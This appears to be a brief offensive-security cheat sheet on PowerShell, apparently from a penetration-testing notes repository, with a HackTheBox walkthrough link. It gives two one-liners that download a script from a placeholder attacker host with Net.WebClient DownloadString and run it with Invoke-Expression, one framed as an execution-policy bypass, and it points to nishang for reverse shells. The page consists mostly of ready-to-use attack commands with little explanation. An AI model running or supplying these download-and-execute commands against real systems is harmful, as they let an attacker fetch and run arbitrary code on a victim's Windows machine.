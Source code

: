 # PowerShell

Powershell full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Powershell "wget" and execute remote code:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Powershell Script Execution Bypass: \[can embed in php too! TODO: write script example of this\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

Powershell reverse shell and exploit scripts: nishang [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

